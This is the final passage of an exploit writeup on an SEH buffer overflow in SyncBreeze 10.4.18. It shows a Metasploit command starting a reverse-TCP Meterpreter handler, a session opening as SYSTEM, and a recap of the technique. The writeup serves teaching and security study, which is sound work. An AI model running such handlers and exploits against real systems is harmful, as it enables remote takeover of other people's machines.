$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.0.0.9; set LPORT 443; exploit"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 10.0.0.9
LPORT => 443
[*] Started reverse TCP handler on 10.0.0.9:443 
[*] Sending stage (180291 bytes) to 10.0.0.15
[*] Meterpreter session 1 opened (10.0.0.9:443 -> 10.0.0.15:49882)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We have successfully exploited the SEH buffer overflow in SyncBreeze 10.4.18 and obtained a Meterpreter session running as `NT AUTHORITY\SYSTEM`.

## Closing Thoughts

This writeup walked through a complete SEH buffer overflow exploit against SyncBreeze 10.4.18, from the initial crash to a working reverse shell running as `NT AUTHORITY\SYSTEM`. Along the way we examined the SEH mechanism, identified the offsets to the exception registration record, found a usable `POP POP RET` gadget in a module compiled without SafeSEH, filtered out bad characters, built a short jump to pivot into our buffer, and used a stack pivot to land in the shellcode.

SEH overflows remain a valuable technique to understand because they teach core concepts that apply far beyond this single target: how Windows dispatches exceptions, how stack layout and pointers can be controlled, and how mitigations like SafeSEH, SEHOP, DEP, and ASLR change the exploitation landscape. While modern systems and hardened binaries make this class of bug much harder to exploit, legacy and unprotected applications such as SyncBreeze still exist in real environments, and understanding the fundamentals is what allows an attacker or defender to reason about them.

Thanks for reading, and I hope this writeup was useful as both a practical guide and a reference for your own SEH exploitation work.

*Writeup by Mikias*